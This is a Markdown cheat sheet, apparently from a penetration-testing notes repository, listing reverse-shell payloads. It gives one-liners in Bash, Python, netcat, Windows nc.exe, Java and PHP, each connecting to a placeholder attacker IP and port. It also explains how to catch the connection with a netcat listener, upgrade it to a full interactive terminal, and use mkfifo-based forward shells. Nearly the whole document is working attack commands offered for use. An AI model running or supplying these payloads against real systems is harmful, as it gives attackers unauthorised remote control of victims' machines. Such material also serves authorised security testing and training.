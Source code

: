Reverse-Shell
=============

A list of Reverse Shells on multiple languages. Replace `{IP}` and `{PORT}` values
with a couple `IP:port` the server can access. Then, on your local machine you open
a listener with `netcat`:

## On local machine

### Listen with NetCat

To listen for an incoming connection and upgrade to a pty shell:

```bash
nc -lvnp {PORT}

# after the connection is established
python -c 'import pty; pty.spawn("/bin/bash")'
```

> On macOS use the `netcat` from [homebrew](https://formulae.brew.sh/formula/netcat)
> instead of the one provided by the OS

You can use [`rlwrap`](https://linux.die.net/man/1/rlwrap) to use arrow keys.


### Upgrade the shell

Then, `Ctrl-Z` to suspend the connection and return to your own terminal.
Type on your terminal:

```bash
stty raw -echo
```

The console should be black, next foreground the shell with:

```bash
fg
reset
```

On target host:

```bash
export SHELL=bash
export TERM=xterm-256color
stty rows 24 columns 80
```

Now you should have a complete shell with shortcuts available.


## On the remote server

### Windows

Upload [`nc.exe`](https://eternallybored.org/misc/netcat/) on the remote server
then use the command (same as [NetCat](#netcat)):

```bash
cmd.exe /C "nc.exe {IP} {PORT} -e cmd.exe"
```


### PowerShell

This is explain in the [Windows / Download and execute script section](windows.md#download-and-execute-script).


### Python
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash
```bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

> To use the bash's built-in `/dev/tcp` device file the use must use `/bin/bash`
> as shell. Often it uses `sh` or `dash`, then you can use `bash -c "<cmd>"` to
> force the `bash`


### Netcat
```bash
nc -e /bin/sh {IP} {PORT}
```

### Java
```java
r = Runtime.getRuntime();p = r.exec(["your payload"] as String[]);p.waitFor()
String[] cmd={"cmd","/C","<cmd>"};Runtime.getRuntime().exec(cmd);
```

> This payload can also work with `BeanShell` scripts.


### PHP
```bash
php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
```


## Forward shell

If the remote server cannot contact your local machine, it's still possible to
use a shell that accept commands from named pipes using `mkfifo` and send the
output to a file.

IppSec has a repository on Github with a simple but effective script to demonstrate
the technique on a vulnerable web server: [`forward-shell`](https://github.com/IppSec/forward-shell).
You need to set the vulnerable url (`self.url = r"http://'...`) and the exploit
arguments (`headers = {'User-Agent': payload}`). Remember that you can use the same
technique on other services that allow you to inject commands.
